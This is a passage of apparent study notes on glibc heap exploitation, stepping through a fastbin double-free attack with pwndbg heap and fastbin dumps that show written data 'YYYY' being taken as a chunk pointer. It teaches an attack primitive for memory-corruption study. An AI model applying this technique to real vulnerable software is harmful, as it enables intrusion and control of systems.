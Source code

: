 ```Heap_Chunks
0x603060        0x0000000000000000      0x0000000000020fa1      ................         <-- Top chunk
```

```fastbins
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x603000 —▸ 0x603030 ◂— 0x603000       <--- points to chunkA
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

6. malloc(0x28, b"YYYY")
  + This should get stored in `chunkA`
  + The data that we're storing (`YYYY`) will later be treated as an address (just keep that in mind)
```Heap_Chunks
pwndbg> vis

0x603000        0x0000000000000000      0x0000000000000031      ........1....... <-- fastbins[0x30][1]
0x603010        0x0000000a59595959      0x0000000000000000      YYYY............ <---'Y' data written
0x603020        0x0000000000000000      0x0000000000000000      ................     over address to 
                                                                                     chunkB


0x603030        0x0000000000000000      0x0000000000000031      ........1....... <-- fastbins[0x30][0]
                                 v---still points to chunkA even though chunkA is allocated
0x603040        0x0000000000603000      0x0000000000000000      .0`.............
0x603050        0x0000000000000000      0x0000000000000000      ................
0x603060        0x0000000000000000      0x0000000000020fa1      ................         <-- Top chunk
```

```fastbins
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x603030 —▸ 0x603000 ◂— 0xa59595959 /* 'YYYY\n' */      <---- now points to chunkB
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

7. malloc(0x28, b"ZZZZ")
  + Note that the `Y` data is being treated as address in the next step!!!
```Heap_Chunks
pwndbg> vis

0x603000        0x0000000000000000      0x0000000000000031      ........1.......  <-- fastbins[0x30][0]
                                v----The 'Y' data is being treated as an address
0x603010        0x0000000059595959      0x0000000000000000      YYYY............
0x603020        0x0000000000000000      0x0000000000000000      ................


0x603030        0x0000000000000000      0x0000000000000031      ........1.......
0x603040        0x000000005a5a5a5a      0x0000000000000000      ZZZZ............ <---'Z' data
```

[Reference heap_notes]: binary/exploit_heap/notes/heap_notes.md
[Reference heap_notes]: binary/exploit_heap/notes/heap_notes.md